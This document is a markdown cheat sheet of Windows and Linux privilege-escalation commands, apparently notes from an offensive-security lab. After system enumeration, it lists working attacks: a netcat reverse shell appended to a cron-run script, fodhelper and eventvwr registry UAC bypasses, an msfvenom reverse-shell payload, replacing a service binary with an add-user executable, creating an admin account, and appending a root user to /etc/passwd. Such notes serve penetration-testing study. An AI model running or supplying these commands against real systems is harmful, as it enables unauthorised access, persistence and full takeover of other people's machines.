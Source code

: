 ### Windows
```
whoami
net user student
net user
hostname
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
tasklist /SVC
ipconfig /all
route -print
netstat -ano
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all
schtasks /query /fo LIST /v
wmic product get name, version, vendor
wmic qfe get Caption, Description, HotFixID, InstalledOn
accesschk.exe -uws "Everyone" "C:\Program Files"
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
mountvol

powershell -> driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path

Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}

reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
REG QUERY HKCU\Software\Policies\Microsoft\Windows\Installer

reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
REG QUERY HKLM\Software\Policies\Microsoft\Windows\Installer

windows-privesc-check2.exe --dump -G

```

### Linux
```
whoami
id
cat /etc/passwd
hostname
cat /etc/issue
cat /etc/*-release
uname -a
uname -r
arch
ps aux
ip a
/sbin/route
ss -anp
iptables
iptables-save
iptables-restore
ls -lah /etc/cron*
cat /etc/crontab
grep "CRON" /var/log/cron.log
dpkg -l
mount
cat /etc/fstab
/bin/lsblk
lsmod
/sbin/modinfo libata
find / -writable -type d 2>/dev/null

find / -perm -u=s -type f 2>/dev/null

./unix-privesc-check standard > output.txt

echo >> user_backups.sh 
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f" >> user_backups.sh

```



```
whoami /priv
whoami /groups - check privilege level for uac

net user admin Ev!lpass
powershell.exe Start-Process cmd.exe -Verb runAs - will require accepting UAC prompt



```


```
cd C:\Tools\privilege_escalation\SysinternalsSuite 
sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe

```
run fodhelper.exe
in process monitor - search fodhelper.exe
reg -> name not found -> HKCU 

HKCU:\Software\Classes\ms-settings\shell\open\command
HKCR:ms-settings\shell\open\command


REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f


UAC Bypass

```
whoami /priv

whoami /groups


C:\users\alice\desktop\sigcheck64.exe -accepteula -a -m .\eventvwr.exe

Did this to get high integrity shell and bypass

msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.119.175 LPORT=443 -f exe > shell_443.exe

reg add HKCU\Software\Classes\mscfile\shell\open\command /d C:\users\alice\desktop\shell_443.exe /f

C:\Windows\system32\eventvwr.exe
```


Listing running services on Windows using PowerShell

```
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}

icacls "C:\Program Files\Serviio\bin\ServiioService.exe"

i686-w64-mingw32-gcc adduser.c -o adduser.exe

move "C:\Program Files\Serviio\bin\ServiioService.exe" "C:\Program Files\Serviio\bin\ServiioService_original.exe"

move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"

dir "C:\Program Files\Serviio\bin\"

wmic service where caption="Serviio" get name, caption, state, startmode

whoami /priv

shutdown /r /t 0

net localgroup administrators

```

### USBPcap

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

driverquery /v

C:\Program Files\USBPcap> type USBPcap.inf

mingw-w64.bat

gcc

gcc --help

```

# Updating /etc/passwd file

```
openssl passwd evil 

echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd 

su root2
```
